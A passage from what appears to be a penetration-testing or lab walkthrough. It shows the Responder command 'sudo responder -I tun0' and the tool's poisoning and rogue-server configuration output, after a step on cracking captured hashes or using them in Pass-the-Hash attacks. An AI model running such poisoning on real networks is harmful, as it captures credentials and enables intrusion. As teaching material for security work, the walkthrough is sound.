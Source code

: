 7. `Lateral Movement or Escalation`: If the cracking is successful, or if you decide to use the hash directly in a Pass-the-Hash attack, you can access other network resources or even escalate your privileges.

### Initialize Responder

With a general understanding of the steps as outlined above, your first course of action is to initialize `Responder`.

```shell
sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.6.0

  Author: Laurent Gaffie ([email protected])
  To kill this script hit CTRL-C

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.58]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

```